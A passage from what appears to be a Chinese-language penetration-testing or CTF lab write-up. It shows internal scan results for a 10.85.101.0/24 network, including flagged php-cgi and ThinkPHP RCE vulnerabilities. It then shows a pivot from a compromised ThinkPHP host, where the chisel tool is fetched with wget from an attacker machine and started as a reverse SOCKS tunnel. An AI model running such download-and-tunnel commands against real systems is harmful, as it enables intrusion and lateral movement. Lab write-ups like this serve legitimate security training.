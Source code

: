 ```shell
start ping
(icmp) Target 10.85.101.3     is alive
(icmp) Target 10.85.101.2     is alive
(icmp) Target 10.85.101.4     is alive
[*] Icmp alive hosts len is: 4
10.85.101.4:80 open
10.85.101.2:6379 open
10.85.101.4:9000 open
10.85.101.3:9000 open
10.85.101.3:80 open
[*] alive ports len is: 5
start vulscan
[*] WebTitle http://10.85.101.4        code:200 len:19411  title:phpMyAdmin
[+] FCGI 10.85.101.4:9000
Status: 403 Forbidden
X-Powered-By: PHP/8.2.8
Content-type: text/html; charset=UTF-8

Access denied.
[*] WebTitle http://10.85.101.3        code:200 len:931    title:None
[+] FCGI 10.85.101.3:9000
Status: 403 Forbidden
X-Powered-By: PHP/7.3.33
Content-type: text/html; charset=UTF-8

Access denied.
stderr:Access to the script '/etc/issue' has been denied (see security.limit_extensions)
plesa try other path,as -path /www/wwwroot/index.php
[+] InfoScan http://10.85.101.4        [phpMyAdmin]
[+] PocScan http://10.85.101.4 poc-yaml-php-cgi-cve-2012-1823
[+] PocScan http://10.85.101.3 poc-yaml-php-cgi-cve-2012-1823
[+] PocScan http://10.85.101.3 poc-yaml-thinkphp5023-method-rce poc1
```

## Net 10.85.101.0/24

```plaintext
phpMyAdmin - 10.85.101.4
Thinkphp - 10.85.101.3
Redis - 10.85.101.2
```

## Thinkphp 端口转发

由于 `10.85.101.0/24` 内的服务较多，所以直接进行 socks 转发

```shell title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ wget 192.168.200.129/chisel_1.9.1_linux_amd64
--2024-07-25 03:44:11--  http://192.168.200.129/chisel_1.9.1_linux_amd64
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: 'chisel_1.9.1_linux_amd64'

chisel_1.9.1_linux_amd64                            100%[===================================================================================================================>]   8.25M  --.-KB/s    in 0.06s

2024-07-25 03:44:11 (136 MB/s) - 'chisel_1.9.1_linux_amd64' saved [8654848/8654848]

(remote) www-data@4c2afff6c232:/tmp$ chmod +x chisel_1.9.1_linux_amd64 &
[1] 833
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 R:0.0.0.0:10002:socks
```